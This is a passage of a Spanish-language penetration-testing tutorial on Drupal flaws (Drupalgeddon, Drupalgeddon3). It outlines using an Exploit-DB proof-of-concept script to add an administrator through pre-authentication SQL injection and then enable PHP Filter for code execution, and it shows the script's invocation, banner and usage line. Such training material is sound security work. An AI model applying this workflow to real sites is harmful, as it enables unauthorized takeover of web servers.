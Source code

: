 - [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), también conocida como Drupalgeddon3, es una vulnerabilidad de ejecución remota de código que afecta a múltiples versiones de Drupal 7.x y 8.x. Esta falla explota una validación incorrecta en la API de formularios.
    

Vamos a recorrer la explotación de cada una de estas.

---

## Drupalgeddon

Como se mencionó anteriormente, esta falla puede explotarse aprovechando una inyección SQL preautenticada que puede usarse para subir código malicioso o agregar un usuario administrador. Intentemos agregar un nuevo usuario administrador con este script [PoC](https://www.exploit-db.com/exploits/34992). Una vez que se agrega un usuario administrador, podríamos iniciar sesión y habilitar el módulo `PHP Filter` para lograr la ejecución remota de código.

Ejecutar el script con el flag `-h` nos muestra el menú de ayuda.

```python
python2.7 drupalgeddon.py 

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \

|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww



Usage: drupalgeddon.py -t http[s]://TARGET_URL -u USER -p PASS


```